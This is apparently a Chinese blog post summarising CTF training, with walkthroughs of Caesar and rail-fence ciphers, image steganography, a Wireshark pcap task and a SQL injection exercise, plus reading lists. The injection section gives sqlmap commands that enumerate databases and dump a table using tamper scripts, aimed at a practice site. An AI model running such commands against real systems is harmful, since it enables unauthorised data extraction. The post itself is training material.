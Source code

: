 ## 安全竞赛培训小结 - 2019年8月17日

### 0x00 前言

很久很久以前，我还蛮爱通过博客来记录自己的学习和生活。但，随着工作，生活的节奏加快，分享欲望的逐步降低，渐渐的变成了一片荒芜。

在29周岁生日的今天，听到了一句话，“只不过是从头再来罢了”。

所以，立个Flag，从今天起，重拾开源分享精神。

那么，开始预备工作：

1. 在GitHub上建个公共仓库。
2. 在家里的群晖上搭个自建图床。（基于Docker搭建Chevereto，[配置参考](http://www.nasyun.com/thread-64644-1-1.html) ）

### 0x01 密码篇

解题思路：答案一般为flag，key，CTF等开头，中间辅以花括号{}。

故我们可以简单的利用Python的ord和chr函数编写一些简单的转换函数，与上述字母比较数字大小来猜测凯撒密码的规律。

编程苦手这边推荐一个工具：米斯特安全团队  CTFCrackTools pro，该工具高分屏使用略辛苦。

凯撒密码例子：[变异的凯撒](http://www.shiyanbar.com/ctf/2038)

> 加密密文：afZ_r9VYfScOeO_UL^RWUc
> 格式：flag{ }

先转换 afZ_ 为 Ascii 码，可知 a:97, f:102, Z:90, _:95

再转换 flag 为 Ascii 码，可知 f:102, l:108, a:97, g:103

可发现一个等差数列，5，6，7，8。

故：flag{Caesar_variation}

栅栏密码例子：

> fghpl{epase}

穷举4种可能性。

[![7eb03bfc9541ca08bdb6bbbcbdc5536c.png](http://dyfree.synology.me:22338/images/2019/08/19/7eb03bfc9541ca08bdb6bbbcbdc5536c.png)](http://dyfree.synology.me:22338/image/AQh)

通过观察得出，第3栏应该是正确答案。

### 0x02 杂项篇

解题思路：基本都是脑洞清奇类的题目，很容易推荐思路只有肝。

隐写术例子：[当眼花的时候，会显示两张图](http://www.shiyanbar.com/ctf/44)

1. 由题目可猜，可能是两张图重叠，使用foremost拆包。

[![explorer_pvfYfnJZdR.md.png](http://dyfree.synology.me:22338/images/2019/08/19/explorer_pvfYfnJZdR.md.png)](http://dyfree.synology.me:22338/image/EzY)

2. 看起来图片貌似有点像，对比一下大小，发现后面一张图的占地面积稍微大于第一张图，猜测可能在图的某些通道藏了点数据。

[![BCompare_AVDeBimreO.md.jpg](http://dyfree.synology.me:22338/images/2019/08/19/BCompare_AVDeBimreO.md.jpg)](http://dyfree.synology.me:22338/image/9eD)

184个差异像素，目测离答案不远了。

3. 使用Stegsolve.jar的data extract依次查看一下低通道的信息，在Red(0)区找到了答案。

[![BCompare_fSoyTfLHfG.md.png](http://dyfree.synology.me:22338/images/2019/08/19/BCompare_fSoyTfLHfG.md.png)](http://dyfree.synology.me:22338/image/MdH)

> 基本全靠蒙系列。

### 0x03 Web篇

解题思路：这部分个人感觉主要需要有一定的网页编码经验，以及熟悉常用的网管工具。

流量包例子：[包](https://ctf.bugku.com/files/e0b57d15b3f8e6190e72987177da1ffd/key.pcapng)

1. 用WireShark打开流量包。
2. 使用基本过滤语法，优先保留http观察下情况。
3. 使用follow根据tcp stream。
4. 然后就找到答案了。=   =

[![Wireshark_EMwrJV8igU.md.png](http://dyfree.synology.me:22338/images/2019/08/19/Wireshark_EMwrJV8igU.md.png)](http://dyfree.synology.me:22338/image/PNw)



渗透例子：[简单的sql注入](http://www.shiyanbar.com/ctf/1875)

常用工具：[sqlmap](http://sqlmap.org/) 需要Python2。

自动注入：

python sqlmap.py -u "http://ctf5.shiyanbar.com/423/web/?id=1" --dbs

python sqlmap.py -u "http://ctf5.shiyanbar.com/423/web/?id=1" --random-agent --tamper "space2comment.py,space2plus.py,space2randomblank.py"  --dbms=mysql --dump -C flag -T flag -D web1

[手工注入1](https://blog.csdn.net/dongyanwen6036/article/details/77825479)

[手工注入2](https://www.jianshu.com/p/0089b2503655)





> 结束语：
>
> 授课人：玩Pwn是爷爷，玩Re是爸爸，玩Web只能当孙子。
>
> 入门建议：
>
> > 公共知识：
> > Linux基础、计算机组成原理、操作系统原理、网络协议分析
> >
> > **A方向：** IDA、OD等工具使用、逆向工程、密码学、缓冲区溢出
> >
> > A方向推荐书籍：
> > > - 汇编语言第3版-王爽
> > > - IDA Pro权威指南
> > > - 揭秘家庭路由器0day漏洞挖掘技术
> > > - RE for Beginners（逆向工程入门）
> > > - 自己动手写操作系统
> > > - 黑客攻防技术宝典：系统实战篇
> >
> > **B方向：**Web安全、网络安全、内网渗透、数据库安全等，OWASP 10的安全漏洞
> >
> > B方向推荐书籍：
> > > - Web安全深度剖析
> > > - Web应用安全权威指南
> > > - 白帽子讲Web安全
> > > - 黑客攻防技术宝典 Web实战篇
> > > - Web前端黑客技术揭秘
> > > - 黑客秘籍-渗透测试实用指南
> > > - 代码审计：企业级Web代码安全架构


